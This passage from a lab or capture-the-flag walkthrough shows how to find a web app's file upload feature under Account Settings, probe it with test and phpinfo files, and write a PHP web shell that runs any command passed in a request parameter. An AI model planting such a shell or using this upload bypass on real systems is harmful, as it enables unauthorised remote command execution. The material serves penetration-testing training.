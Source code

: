 ### Step 3.1: Finding the Upload Functionality

After logging in as brandon, explore the application:

```bash
# Look at the menu options on the left side
# You should see:
# - Home
# - Account Settings  <-- Click this!
# - Launch OCWA
```

Navigate to "Account Settings" - this reveals a file upload utility!

The upload functionality may have security checks that can potentially be bypassed:
- File extension validation
- MIME type checking
- File content inspection

Let's test the upload functionality:

```bash
# Create a simple test file
┌──(kali㉿kali)-[~]
└─$ echo "test" > test.txt

# Try uploading through the web interface
# Navigate to Account Settings > Upload
# Upload test.txt - observe the behavior

# Now try a PHP file
┌──(kali㉿kali)-[~]
└─$ echo '<?php phpinfo(); ?>' > info.php
# Try uploading - observe if it's blocked
```

### Step 3.2: Bypassing Upload Restrictions

**Creating PHP Web Shell:**
```bash
┌──(kali㉿kali)-[~/oclab]
└─$ cat > shell.php << 'EOF'
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
EOF

┌──(kali㉿kali)-[~/oclab]
└─$ ls -la shell.php
-rw-r--r-- 1 kali kali 89 Jan 15 11:00 shell.php
```
